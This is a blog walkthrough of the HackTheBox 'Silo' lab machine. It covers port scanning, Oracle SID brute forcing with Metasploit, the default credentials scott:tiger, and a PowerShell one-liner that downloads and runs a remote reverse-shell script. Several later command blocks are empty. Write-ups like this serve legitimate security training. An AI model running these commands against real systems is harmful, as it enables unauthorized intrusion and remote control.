 ```yaml
---
layout: post
title: Hackthebox Silo Walkthrough
categories: HackTheBox
---
```


![placeholder](https://inar1.github.io/public/images/2019-11-07/silo-badge.png)
# Explanation
<a href="https://www.hackthebox.eu">Hackthebox</a> is a website which has a bunch of vulnerable machines in its own VPN.<br>
To learn a new technique/knowledge, solve all machines (As much as possible!!).<br>
This is a walkthrough of a box "Silo".<br>

# Solution
### 1. Initial Enumeration

TCP Port Scanning:
{% highlight shell %}
root@kali:~# nmap -p- 10.10.10.82 -sV -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-06 15:58 EET
Nmap scan report for 10.10.10.82
Host is up (0.047s latency).
Not shown: 65520 closed ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49161/tcp open  msrpc        Microsoft Windows RPC
49162/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2m19s, deviation: 0s, median: 2m18s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-11-06T14:51:29
|_  start_date: 2019-11-06T14:00:27

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3066.66 seconds
{% endhighlight %}

Gobuster HTTP:
{% highlight shell %}
root@kali:~# gobuster dir -u http://10.10.10.82/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .html,.aspx -s '200,204,301,302,403'
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.82/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,aspx
[+] Timeout:        10s
===============================================================
2019/11/06 16:54:45 Starting gobuster
===============================================================
===============================================================
2019/11/06 18:05:09 Finished
===============================================================
{% endhighlight %}

### 2. Getting User

Sounds we have nothing interesting on port 80 HTTP.<br>
Then, try to take a look at Oracle TNS listener.<br>
At first, try to get SIDs.<br>
<em>The Oracle System ID (SID) is used to uniquely identify a particular database on a system. For this reason, one cannot have more than one database with the same SID on a computer system.</em>
{% highlight shell %}
msf5 auxiliary(admin/oracle/sid_brute) > use auxiliary/admin/oracle/sid_brute 
msf5 auxiliary(admin/oracle/sid_brute) > set rhost 10.10.10.82
rhost => 10.10.10.82
msf5 auxiliary(admin/oracle/sid_brute) > show options

Module options (auxiliary/admin/oracle/sid_brute):

   Name     Current Setting                                         Required  Description
   ----     ---------------                                         --------  -----------
   RHOSTS   10.10.10.82                                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    1521                                                    yes       The target port (TCP)
   SIDFILE  /usr/share/metasploit-framework/data/wordlists/sid.txt  no        The file that contains a list of sids.
   SLEEP    1                                                       no        Sleep() amount between each request.

msf5 auxiliary(admin/oracle/sid_brute) > run
[*] Running module against 10.10.10.82

[*] 10.10.10.82:1521 - Starting brute force on 10.10.10.82, using sids from /usr/share/metasploit-framework/data/wordlists/sid.txt...
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'XE'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'PLSExtProc'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'CLRExtProc'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID ''
[*] 10.10.10.82:1521 - Done with brute force...
[*] Auxiliary module execution completed
{% endhighlight %}

Next, brute force the valid credentials.<br>
To set up the Oracle client on Kali, we can read <a hreh="https://github.com/rapid7/metasploit-framework/wiki/How-to-get-Oracle-Support-working-with-Kali-Linux">this page</a>
We can find following username/password.
{% highlight shell %}
scott:tiger
{% endhighlight %}
{% highlight shell %}

{% endhighlight %}

For the Oracle penetration testing, we can use a script "<a href="https://github.com/quentinhardy/odat">odat.py</a>".<br>
Next, try to check if we have a write permission.
{% highlight shell %}

{% endhighlight %}
{% highlight shell %}

{% endhighlight %}

Then, upload a aspx webshell which is installed on Kali linux by default.
{% highlight shell %}

{% endhighlight %}
![placeholder](https://inar1.github.io/public/images/2019-11-07/silo-badge.png)

To launch a netcat listener to receive a reverse shell.
{% highlight shell %}

{% endhighlight %}

For the reverse shell, we can use <a href="https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1">this Powershell script</a>.<br>
To use it, we have to run following command with the webshell.
{% highlight shell %}
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.15.48:8083/Invoke-PowerShellTcp.ps1')
{% endhighlight %}

Now we got a reverse shell.<br>
user.txt is in the directory "Directory: C:\users\Phineas\Desktop".
{% highlight shell %}

{% endhighlight %}


### 3. Getting Root

There is another file in the same directory which name is "Oracle issue.txt" with password.
{% highlight shell %}

{% endhighlight %}

Then, try to access to the dropbox.<br>
![placeholder](https://inar1.github.io/public/images/2019-11-07/silo-badge.png)

By unzip, we can get a file which contains memory dump.<br>
We can use "volatility" to do the investigation.
{% highlight shell %}

{% endhighlight %}

We found a some files should be confidential.<br>
To dump the hash, wehave to provide the needed addresses for SYSTEM and SAM.
{% highlight shell %}

{% endhighlight %}

Since we can use Pass the Hash technique for Windows,<br>
we can achieve a SYSTEM shell with following command.
{% highlight shell %}

{% endhighlight %}

As always, root.txt is in the directory "C:\Users\Administrator\Desktop".
{% highlight shell %}

{% endhighlight %}
